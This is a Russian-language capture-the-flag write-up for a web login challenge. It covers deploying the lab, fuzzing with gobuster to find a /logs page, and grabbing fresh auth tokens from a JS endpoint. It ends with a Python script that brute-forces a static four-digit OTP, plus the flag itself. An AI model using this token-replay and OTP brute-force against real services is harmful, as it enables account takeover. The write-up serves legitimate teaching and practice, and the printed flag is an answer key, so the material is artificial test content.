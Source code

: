 ***Описание***: ﻿Как всегда, когда мы устаем мы допускаем ошибки, этот сайт не исключение. Формат флага: Shift{plain_text}

---

***Решение***:

При необходимости деплой таска следующий:

```sh
1. cd to lab

2. docker-compose build

3. docker-compose up
```

Сам сайт:

![ScreenShot](screenshots/34.png)

Сканим сайт фуззером (например, gobuster), находим ***/logs***

![ScreenShot](screenshots/35.png)

Понимаем что все токены на странице простроченные

Ищем .js endpoint его можно отловить на странице с токенами **/logs/** в теге `<scripts>`

![ScreenShot](screenshots/36.png)

При каждом обращении генерируем токен и идем на страницу **/**

Сайт попросит ввести email с доменом @vunerable.com вводим например admin@vunerable.com

Далее просит ввести OTP (4-значный одноразовый код). OTP ***статичный*** об этом написано в console.log() -> нужно его сбрутить

После вводим сбрученный OTP

Сплойт:

```python
#!/usr/bin/python3
import requests


def main():
	url = "http://flagsharing.ru:5000"
	for otp in range(10000):
		# request authorization token
		auth_token = requests.post(f"{url}/api/request/auth_token")

		# send the X-Authorized-For header
		headers = {
			"Content-Type": "application/x-www-form-urlencoded",
			"X-Authorized-For": auth_token.text.strip()
		}

		# submit email to request OTP
		data = {"email": "leetcipher@vulnerable.com"}
		requests.post(f"{url}/request_otp", headers = headers, data = data)

		# brute-force OTP
		data = {"otp": "{:04}".format(otp)}
		response = requests.post(f"{url}/submit_otp", headers = headers, data = data, allow_redirects = False)
		print("[{:04}] -> [{}]".format(otp, response.status_code))

		# check if the response status code equal to anything except 401
		if response.status_code != 401:
			print("valid OTP -> [{}]".format(otp))
			break


if __name__ == "__main__":
	main()
```

---

Флаг: Shift{EZ_KILL_EZ_KILL_WATSAO_NIMA}